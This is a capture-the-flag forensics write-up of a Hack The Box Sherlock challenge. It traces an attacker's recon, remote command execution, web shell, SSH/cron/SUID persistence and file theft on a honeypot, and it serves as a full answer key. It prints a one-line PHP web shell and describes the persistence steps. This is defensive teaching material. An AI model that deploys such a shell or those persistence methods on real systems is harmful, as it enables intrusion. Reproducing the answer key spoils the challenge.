


# 🕵️ HTB Sherlock — Holmes 2025 1: The Card

> [!summary]
> This Sherlock follows a threat actor who leaves a recurring digital calling card: **`4A4D`**.  
> The investigation begins with web access logs, pivots into WAF/application logs, then moves into CTI graph analysis, malware hash analysis, C2 enrichment, and exposed infrastructure scanning.

---

## 1. Case Overview

| Field | Value |
|---|---|
| **Sherlock** | Holmes 2025 1: The Card |
| **Difficulty** | Easy |
| **Main Victim / Honeypot Owner** | Nicole Vale |
| **Primary Attacker IP** | `121.36.37.224` |
| **Recurring Signature** | `4A4D` |
| **Initial Evidence Files** | `access.log`, `application.log`, `waf.log` |
| **Main External Platforms** | CogWork Intel Graph, CogWork Security Platform, CogNet Scanner |
| **Core Skills** | Log triage, CTI pivoting, IOC correlation, malware behavior analysis, port/banner analysis |

---

## 2. Investigation Flow



---

## 3. Final Answer Key

> [!important]
> This table is the compact submission reference. The sections below explain how each answer was derived.

| # | Question Theme | Answer |
|---:|---|---|
| 1 | First User-Agent used by attacker | `Lilnunc/4A4D - SpecterEye` |
| 2 | Web shell filename | `temp_4A4D.php` |
| 3 | Exfiltrated database file | `database_dump_4A4D.sql` |
| 4 | Campaigns linked to honeypot attack | `8` |
| 5 | Tools + malware linked to campaigns | `24` |
| 6 | Recurring meaningless string | `4A4D` |
| 7 | Malware SHA-256 hash | `7477c4f5e6d7c8b9a0f1e2d3c4b5a6f7e8d9c0b1a2f3e4d5c6b7a8f9e0d17477` |
| 8 | Malware C2 IP address | `74.77.74.77` |
| 9 | Malware-created persistence file path | `/opt/lilnunc/implant/4a4d_persistence.sh` |
| 10 | Number of open ports on C2 server | `11` |
| 11 | Organization for C2 IP | `CogWork-1 Networks` |
| 12 | Cryptic service banner | **GUI-only value — add your exact solved banner here** |

> [!note]
> The cryptic banner was not captured in the chat evidence. Do **not** invent it in a final report. Add the exact value from the CogNet Scanner service details panel if you want a fully complete personal writeup.

---

# 4. Artifact Triage

## 4.1 Files Provided

```text
access.log
application.log
waf.log
```

These three files gave the complete attack progression:

| File | Purpose |
|---|---|
| `access.log` | HTTP requests, source IPs, requested paths, status codes, User-Agent values |
| `application.log` | Backend events: RCE attempts, commands, persistence, web shell creation |
| `waf.log` | WAF detections and bypasses: web shell, SSH backdoor, cron, SUID, exfiltration |

---

## 4.2 First Useful Commands

```bash
ls -lah
wc -l *.log
head -n 20 access.log
head -n 20 application.log
head -n 20 waf.log
```

Extract timestamp and User-Agent from an Apache/Nginx-style access log:

```bash
awk -F\" '{print $4 " | " $6}' access.log | head -n 20
```

Search for common malicious activity:

```bash
grep -Eini "upload|shell|webshell|filename=|multipart|\.php|\.phtml|\.phar|\.jsp|\.aspx|cmd=|exec|system|passthru|base64|Lilnunc|SpecterEye" access.log application.log waf.log
```

Search for persistence-related activity:

```bash
grep -Eini "persist|persistence|cron|authorized_keys|ssh|service|systemd|startup|rc.local|init.d|created|malware" application.log waf.log access.log
```

---

# 5. Timeline Reconstruction

| Timestamp UTC | Source | Event | Interpretation |
|---|---|---|---|
| `2025-05-01 08:23:12` | `access.log` | `GET /robots.txt` with `Lilnunc/4A4D - SpecterEye` | Initial recon against honeypot |
| `2025-05-01 08:23:45` | `access.log` | `GET /sitemap.xml` | Recon continues |
| `2025-05-01 08:24:23` | `access.log` | `GET /admin` | Admin path probing |
| `2025-05-01 08:24:34` | `access.log` | `GET /login` | Login page discovery |
| `2025-05-15 11:23:45` | `access.log` / `application.log` | `POST /api/v2/debug/exec`, command `whoami` | Command execution attempt |
| `2025-05-15 11:24:12` | `application.log` | RCE successful with `id; uname -a` | Attacker gained code execution |
| `2025-05-15 11:24:23` | `application.log` | `ls -la /var/www/html` | File-system discovery |
| `2025-05-15 11:25:01` | `application.log` / `waf.log` | Web shell deployment initiated | Backdoor creation |
| `2025-05-15 11:25:12` | `application.log` / `waf.log` | `temp_4A4D.php` created | Web shell confirmed |
| `2025-05-15 11:25:23` | `application.log` | SSH key generated at `/tmp/backdoor_4A4D` | Manual persistence attempt |
| `2025-05-15 11:25:34` | `application.log` | Key appended to `/root/.ssh/authorized_keys` | Root SSH persistence |
| `2025-05-15 11:25:45` | `application.log` | Cron beacon to `121.36.37.224:7477` | Scheduled callback |
| `2025-05-15 11:25:56` | `application.log` | SUID bash copied to `/tmp/.system_update_4A4D` | Privilege escalation backdoor |
| `2025-05-18 14:56:12` | `access.log` / `waf.log` | `backup_2025_4A4D.tar.gz` downloaded | Data exfiltration |
| `2025-05-18 14:58:23` | `access.log` / `waf.log` | `database_dump_4A4D.sql` downloaded | Database exfiltration |
| `2025-05-18 15:01:34` | `access.log` / `waf.log` | `config_4A4D.json` downloaded | Config exfiltration |
| `2025-05-18 15:02:12` | `access.log` / `waf.log` | Web shell used with `cmd=ls` | Shell execution continues |
| `2025-05-19 07:15:23` | `application.log` / `waf.log` | SSH backdoor activation | Persistent access |
| `2025-05-19 07:15:34` | `application.log` / `waf.log` | SUID binary executed | Privilege escalation |
| `2025-05-19 08:12:45` | `application.log` | Full system compromise detected | Root/admin control achieved |

---

# 6. Question-by-Question Walkthrough

---

## Q1. First User-Agent Used by the Attacker

### Answer

```text
Lilnunc/4A4D - SpecterEye
```

### Evidence

The earliest `access.log` entries show the attacker browsing reconnaissance endpoints:

```text
GET /robots.txt        User-Agent: Lilnunc/4A4D - SpecterEye
GET /sitemap.xml       User-Agent: Lilnunc/4A4D - SpecterEye
GET /login             User-Agent: Lilnunc/4A4D - SpecterEye
```

### Method

```bash
awk -F\" '{print $4 " | " $6}' access.log | head -n 20
```

### Concept

A **User-Agent** is an HTTP header that tells the server what client is making the request. Real browsers use values like `Mozilla/5.0`. Attack tools often use custom or sloppy User-Agent strings. Here, the attacker’s tool leaves a strong signature: `Lilnunc/4A4D - SpecterEye`.

---

## Q2. Web Shell Filename

### Answer

```text
temp_4A4D.php
```

### Evidence

`application.log` showed the web shell creation:

```text
Web shell created at /uploads/temp_4A4D.php by 121.36.37.224
```

`waf.log` also confirmed the bypass:

```text
Rule: WEBSHELL_DEPLOYMENT - Action: BYPASS - PHP web shell temp_4A4D.php created
```

Later `access.log` showed the file being used:

```text
GET /uploads/temp_4A4D.php?cmd=whoami HTTP/1.1
```

### Concept

A **web shell** is a server-side script that lets an attacker execute commands through HTTP requests. This one accepted commands through the `cmd` parameter:

```php
<?php system($_GET["cmd"]); ?>
```

That means a request like this executes `whoami` on the server:

```text
/uploads/temp_4A4D.php?cmd=whoami
```

---

## Q3. Exfiltrated Database File

### Answer

```text
database_dump_4A4D.sql
```

### Evidence

`access.log` showed a successful HTTP download:

```text
GET /uploads/database_dump_4A4D.sql HTTP/1.1" 200 52428800
```

`waf.log` confirmed the same event:

```text
Rule: DATABASE_DOWNLOAD - Action: BYPASS - Database file download: database_dump_4A4D.sql
```

### Concept

A `.sql` dump usually contains exported database schema and data. A large successful `200 OK` response against a database dump path is strong exfiltration evidence.

---

## Q4. Campaigns Linked to the Honeypot Attack

### Answer

```text
8
```

### How to Count

In **CogWork Intel Graph**:

1. Search for `4A4D`.
2. Focus on the recurring marker / indicator node.
3. Count directly linked **Campaign** nodes.
4. Campaign nodes are colored **red** according to the graph legend.

### Concept

A CTI graph connects entities such as:

- Indicators
- Malware
- Tools
- Campaigns
- Organizations
- Infrastructure
- Attack patterns

A recurring marker like `4A4D` becomes an attribution pivot. If multiple campaigns share the same marker, tool, malware, or C2 pattern, the graph can show likely linkage.

---

## Q5. Total Tools + Malware Linked to Campaigns

### Answer

```text
24
```

### How to Count

In the graph:

- Count **Tool** nodes.
- Count **Malware** nodes.
- Add them together.
- Do **not** count campaigns, indicators, organizations, attack patterns, identities, documents, locations, or infrastructure.

```text
Tools + Malware = 24
```

### Concept

This is a CTI relationship-counting question. The trick is not technical exploitation; it is correct entity classification.

---

## Q6. Recurring Meaningless String

### Answer

```text
4A4D
```

### Evidence

The string appeared repeatedly:

```text
Lilnunc/4A4D - SpecterEye
temp_4A4D.php
backup_2025_4A4D.tar.gz
database_dump_4A4D.sql
config_4A4D.json
.system_update_4A4D
Periodic beacon callbacks with ID 4A4D
```

### Concept

This is a classic **attribution marker**. It is not necessarily meaningful by itself, but repetition across tooling, filenames, C2, malware, and campaigns makes it useful for pivoting.

---

## Q7. Malware SHA-256 Hash

### Answer

```text
7477c4f5e6d7c8b9a0f1e2d3c4b5a6f7e8d9c0b1a2f3e4d5c6b7a8f9e0d17477
```

### Evidence Source

The second platform, **CogWork Security Platform**, contained the malware scan entry:

```text
neurostorm_implant_4A4D.bin
```

The uploaded frontend bundle also exposed this entry in the static data:

```text
fileName: neurostorm_implant_4A4D.bin
sha256: 7477c4f5e6d7c8b9a0f1e2d3c4b5a6f7e8d9c0b1a2f3e4d5c6b7a8f9e0d17477
```

### Method

If the UI hides the hash, inspect the frontend bundle:

```bash
curl -s 'http://154.57.164.78:30799/assets/index-BvmeyZR8.js' -o app.js
grep -Eio '[a-fA-F0-9]{64}' app.js | sort -u
```

### Concept

A **SHA-256 hash** uniquely fingerprints a file. Malware investigations often pivot on hashes to connect samples, campaigns, detections, and behavior reports.

---

## Q8. Malware C2 IP Address

### Answer

```text
74.77.74.77
```

### Evidence

The behavior analysis for `neurostorm_implant_4A4D.bin` listed network activity:

```text
https → 74.77.74.77:443 → C2 Command & Control Server
tcp   → 74.77.74.77:7474 → Backdoor listener port
tcp   → 74.77.74.77:8080 → Secondary C2 channel
```

### Concept

A **C2 server** is attacker-controlled infrastructure used to send commands to malware and receive stolen data or beacon callbacks.

---

## Q9. Malware-Created Persistence File

### Answer

```text
/opt/lilnunc/implant/4a4d_persistence.sh
```

### Important Distinction

This question asks for the file created by the **malware**, not the attacker’s manual persistence from the web server logs.

Manual attacker persistence seen in logs included:

```text
/root/.ssh/authorized_keys
/tmp/.system_update_4A4D
crontab beacon entry
```

But the malware behavior analysis showed the malware itself created:

```text
/opt/lilnunc/implant/4a4d_persistence.sh
```

### Concept

Persistence means the attacker or malware survives reboots, restarts, or session loss. Common Linux persistence locations include:

```text
/etc/cron.d/
/var/spool/cron/
/etc/systemd/system/
/etc/rc.local
~/.ssh/authorized_keys
/opt/<malware-family>/
```

---

## Q10. Number of Open Ports on the C2 Server

### Answer

```text
11
```

### Evidence From CogNet Scanner

The target C2 IP was:

```text
74.77.74.77
```

Open ports displayed:

```text
22/tcp    ssh
25/tcp    smtp
53/udp    dns
80/tcp    http
110/tcp   pop3
143/tcp   imap
443/tcp   https
3389/tcp  rdp
7477/tcp  unknown
8080/tcp  http-proxy
8443/tcp  https-alt
```

Count:

```text
11 open ports
```

### Concept

Open ports reveal exposed services. In CTI and infrastructure analysis, they help identify server role, misconfiguration, exposed admin panels, malware listeners, and banner clues.

---

## Q11. Organization for the C2 IP

### Answer

```text
CogWork-1 Networks
```

### Evidence

CogNet Scanner showed the IP `74.77.74.77` belonged to:

```text
CogWork-1 Networks
```

### Concept

Organization/ASN ownership helps determine whether infrastructure is:

- cloud-hosted
- enterprise-owned
- residential
- hijacked
- spoofed/fake for challenge context
- reused across campaigns

---

## Q12. Cryptic Banner Message

### Answer

```text
<ADD EXACT GUI BANNER MESSAGE HERE>
```

### How It Was Found

In **CogNet Scanner**:

1. Search `74.77.74.77`.
2. Open **Details**.
3. Expand service details.
4. Inspect banners for exposed services.
5. The suspicious service is likely one of:

```text
7477/tcp unknown
8080/tcp http-proxy
8443/tcp https-alt
```

### Concept

A **banner** is text a service returns during connection or protocol negotiation. Attackers sometimes leave banners intentionally as taunts, campaign signatures, or operational mistakes.

Example banner-grabbing logic:

```bash
nc -nv 74.77.74.77 7477
curl -i http://74.77.74.77:8080
curl -k -i https://74.77.74.77:8443
```

---

# 7. Attack Chain Summary



---

# 8. MITRE ATT&CK Mapping

| Phase | Observed Evidence | Technique |
|---|---|---|
| Reconnaissance | Requests to `/robots.txt`, `/sitemap.xml`, `/admin`, `/login` | Active Scanning — `T1595` |
| Initial Access | Abuse of `/api/v2/debug/exec` | Exploit Public-Facing Application — `T1190` |
| Execution | Commands like `whoami`, `id`, `uname -a`, `ls -la` | Command and Scripting Interpreter — `T1059` |
| Persistence | Web shell `temp_4A4D.php` | Server Software Component: Web Shell — `T1505.003` |
| Persistence | SSH key added to `/root/.ssh/authorized_keys` | SSH Authorized Keys — `T1098.004` |
| Persistence | Cron beacon every 5 minutes | Scheduled Task/Job: Cron — `T1053.003` |
| Privilege Escalation | SUID bash copied to `/tmp/.system_update_4A4D` | Abuse Elevation Control Mechanism: Setuid/Setgid — `T1548.001` |
| Discovery | `ls -la /var/www/html` and upload directory listing | File and Directory Discovery — `T1083` |
| Collection | Archive created with `tar -czf` | Archive Collected Data — `T1560` |
| Exfiltration | Database/config/archive downloads | Exfiltration Over Web Service / C2 Channel — `T1041` |
| Command and Control | Beacons and malware C2 `74.77.74.77` | Application Layer Protocol: Web Protocols — `T1071.001` |
| Defense Evasion | WAF actions show `BYPASS` | Impair Defenses / Evasion behavior — contextual |

---

# 9. IOC Table

## 9.1 Network Indicators

| Type | Indicator | Notes |
|---|---|---|
| Attacker IP | `121.36.37.224` | Source IP seen in logs |
| C2 IP | `74.77.74.77` | Malware C2 infrastructure |
| C2 Port | `443/tcp` | HTTPS C2 |
| C2 Port | `7474/tcp` | Backdoor listener |
| C2 Port | `8080/tcp` | Secondary C2 channel |
| Scanner Port | `7477/tcp` | Exposed suspicious service on C2 server |
| Domain | `4a4d-nullinc.revenge.onion` | Tor hidden service from malware behavior |

## 9.2 File Indicators

| Type | Indicator | Notes |
|---|---|---|
| Web shell | `/uploads/temp_4A4D.php` | PHP command shell |
| Exfil archive | `backup_2025_4A4D.tar.gz` | Large file download |
| Database dump | `database_dump_4A4D.sql` | Exfiltrated database |
| Config file | `config_4A4D.json` | Exfiltrated config |
| Malware sample | `neurostorm_implant_4A4D.bin` | ELF malware sample |
| Malware persistence | `/opt/lilnunc/implant/4a4d_persistence.sh` | Malware-created persistence script |
| Malware config | `/etc/lilnunc/4a4d_config.xml` | Malware-created config file |
| SSH key | `/tmp/backdoor_4A4D` | Generated key |
| Root SSH persistence | `/root/.ssh/authorized_keys` | Attacker key appended |
| SUID backdoor | `/tmp/.system_update_4A4D` | Copied SUID bash |

## 9.3 Hashes

| Algorithm | Hash |
|---|---|
| SHA-256 | `7477c4f5e6d7c8b9a0f1e2d3c4b5a6f7e8d9c0b1a2f3e4d5c6b7a8f9e0d17477` |
| SHA-1 | `7477c4f5e6d7c8b9a0f1e2d3c4b5a6f7e8d9c0b1` |
| MD5 | `4a4d7477c4f5e6d7c8b9a0f1e2d3c4b5` |

---

# 10. Detection Logic

## 10.1 Suspicious User-Agent Detection

```spl
index=web sourcetype=access_combined
user_agent="*4A4D*" OR user_agent="*SpecterEye*" OR user_agent="*Lilnunc*"
```

## 10.2 Web Shell Access Detection

```spl
index=web sourcetype=access_combined
uri_path="*/uploads/*.php" uri_query="cmd=*"
```

## 10.3 Debug Endpoint RCE Detection

```spl
index=web
uri_path="/api/v2/debug/exec" method="POST"
```

## 10.4 Linux Persistence Detection

```spl
index=linux
("authorized_keys" OR "crontab" OR "/etc/rc.local" OR "chmod +s" OR "systemd")
```

## 10.5 Exfiltration Detection

```spl
index=web
(uri_path="*.sql" OR uri_path="*.tar.gz" OR uri_path="*.json")
status=200
bytes>1000000
```

---

# 11. Commands Used During Analysis

## Extract User-Agents

```bash
awk -F\" '{print $4 " | " $6}' access.log | head -n 20
```

## Search for Web Shell and RCE

```bash
grep -Eini "upload|shell|webshell|filename=|multipart|\.php|\.phtml|cmd=|exec|system|passthru|base64|Lilnunc|SpecterEye" access.log application.log waf.log
```

## Extract Web-Shell-Like Filenames

```bash
grep -Eio '[A-Za-z0-9._-]+\.(php|phtml|phar|jsp|jspx|asp|aspx|ashx|cgi|pl|py|sh)' access.log application.log waf.log | sort -u
```

## Search Persistence

```bash
grep -Eini "persist|persistence|cron|authorized_keys|ssh|service|systemd|startup|rc.local|init.d|created|malware" application.log waf.log access.log
```

## Extract IPs and Ports

```bash
grep -Eho '([0-9]{1,3}\.){3}[0-9]{1,3}:[0-9]+' access.log application.log waf.log | sort -u
```

## Extract SHA-256 Hashes from Frontend Bundle

```bash
grep -Eio '[a-fA-F0-9]{64}' app.js | sort -u
```

## Search Static Frontend Bundle for CTI Terms

```bash
grep -Eini "4A4D|JM|sha|hash|malware|campaign|c2|connect|beacon|persistence|created" app.js | head -n 80
```

---

# 12. Concepts Appendix

## 12.1 What is a Honeypot?

A **honeypot** is a deliberately exposed or monitored system designed to attract attackers. Its purpose is not normal production use; its purpose is to collect attacker behavior, tools, commands, payloads, and infrastructure.

In this Sherlock, Nicole Vale’s honeypot captured:

- recon requests
- User-Agent strings
- RCE attempts
- web shell deployment
- persistence commands
- exfiltration activity
- C2 pivots

---

## 12.2 What is WAF Bypass?

A **Web Application Firewall** tries to detect and block malicious HTTP traffic. In the logs, many WAF entries show:

```text
Action: BYPASS
```

That means the WAF detected suspicious behavior but failed to stop it. This is why the attacker could still deploy the web shell and perform persistence actions.

---

## 12.3 What is a Web Shell?

A web shell is a web-accessible script that gives command execution. In this case:

```php
<?php system($_GET["cmd"]); ?>
```

This is dangerous because any HTTP request with a `cmd` parameter can run commands on the server.

Example:

```text
/uploads/temp_4A4D.php?cmd=whoami
```

---

## 12.4 What is CTI Pivoting?

**Cyber Threat Intelligence pivoting** means taking one known indicator and using it to find connected entities.

Example pivot chain:

```text
4A4D → campaigns → malware → hash → C2 IP → exposed services → banner
```

The recurring string `4A4D` was the most useful pivot.

---

## 12.5 What is a Malware Hash?

A hash is a unique fingerprint of a file. SHA-256 is commonly used in malware analysis because small file changes produce completely different hashes.

In this case:

```text
neurostorm_implant_4A4D.bin
7477c4f5e6d7c8b9a0f1e2d3c4b5a6f7e8d9c0b1a2f3e4d5c6b7a8f9e0d17477
```

---

## 12.6 What is C2?

**Command and Control** infrastructure is used by malware to communicate with the attacker.

The malware connected to:

```text
74.77.74.77
```

Observed channels:

```text
443/tcp   HTTPS C2
7474/tcp  Backdoor listener
8080/tcp  Secondary C2
```

---

## 12.7 Why Open Ports Matter

Open ports tell us what services are reachable. In this case, the C2 server exposed multiple services:

```text
ssh, smtp, dns, http, pop3, imap, https, rdp, unknown, http-proxy, https-alt
```

A high number of exposed services increases attack surface and gives investigators more banners, headers, and infrastructure clues.

---

# 13. Lessons Learned

> [!tip]
> The main trick in this Sherlock was following the same indicator across different evidence sources.

Key lessons:

1. **Start with logs, not guesses.**  
   The first User-Agent and attacker IP were directly visible in `access.log`.

2. **Correlate across multiple logs.**  
   `application.log` showed backend behavior, while `waf.log` showed detection/bypass context.

3. **Distinguish attacker actions from malware actions.**  
   `/root/.ssh/authorized_keys` and `/tmp/.system_update_4A4D` were attacker-created persistence artifacts.  
   `/opt/lilnunc/implant/4a4d_persistence.sh` was malware-created persistence.

4. **Use repeated strings as pivots.**  
   `4A4D` connected filenames, malware, campaigns, infrastructure, and C2.

5. **If the UI hides data, inspect the bundle/API/export.**  
   The SHA-256 and behavior details were recoverable from the frontend JavaScript/static data.

6. **GUI questions require careful counting.**  
   CTI graph and scanner questions often require counting entity types, open ports, and service banners manually.

---

# 14. Final Case Narrative

The attacker at `121.36.37.224` began with reconnaissance against Nicole Vale’s honeypot using the distinctive User-Agent `Lilnunc/4A4D - SpecterEye`. The attacker probed common discovery paths such as `/robots.txt`, `/sitemap.xml`, `/admin`, `/login`, `/wp-admin`, and `/phpmyadmin`.

Later, the actor exploited `/api/v2/debug/exec`, successfully achieving remote command execution. After confirming execution with commands such as `whoami`, `id`, `uname -a`, and `ls -la /var/www/html`, the attacker deployed a PHP web shell named `temp_4A4D.php` under `/uploads/`.

The actor then established multiple persistence mechanisms: an SSH key for root login, a cron beacon to `121.36.37.224:7477`, and a SUID bash backdoor at `/tmp/.system_update_4A4D`. The attacker also staged and exfiltrated sensitive files, including `backup_2025_4A4D.tar.gz`, `database_dump_4A4D.sql`, and `config_4A4D.json`.

The repeated string `4A4D` became the key pivot into CogWork’s CTI graph, where it linked several campaigns and associated tooling/malware. The malware used across those campaigns was identified as `neurostorm_implant_4A4D.bin`, with SHA-256 hash `7477c4f5e6d7c8b9a0f1e2d3c4b5a6f7e8d9c0b1a2f3e4d5c6b7a8f9e0d17477`.

Malware behavior analysis showed C2 activity to `74.77.74.77`, and the malware-created persistence file was `/opt/lilnunc/implant/4a4d_persistence.sh`. Finally, CogNet Scanner revealed that the C2 host belonged to `CogWork-1 Networks` and exposed 11 open ports.

---

# 15. Quick Revision Card

```text
Attacker IP:        121.36.37.224
C2 IP:              74.77.74.77
Marker:             4A4D
First User-Agent:   Lilnunc/4A4D - SpecterEye
Web shell:          temp_4A4D.php
Database dump:      database_dump_4A4D.sql
Malware:            neurostorm_implant_4A4D.bin
SHA-256:            7477c4f5e6d7c8b9a0f1e2d3c4b5a6f7e8d9c0b1a2f3e4d5c6b7a8f9e0d17477
Persistence file:   /opt/lilnunc/implant/4a4d_persistence.sh
Open ports:         11
Organization:       CogWork-1 Networks
```

---

# 16. Report Quality Checklist

- [x] First suspicious User-Agent identified
- [x] Attacker IP identified
- [x] Web shell name confirmed
- [x] Exfiltrated database file identified
- [x] Recurring marker identified
- [x] CTI graph pivot explained
- [x] Malware hash identified
- [x] C2 IP identified
- [x] Malware persistence file identified
- [x] Scanner open ports counted
- [x] Organization identified
- [ ] Add exact cryptic GUI banner message from final scanner details

---

## End

> [!quote]
> In this Sherlock, the strongest evidence was not one log line. It was the repeated pattern: **`4A4D`** appearing across recon, web shell, exfiltration, malware, C2, and campaign infrastructure.
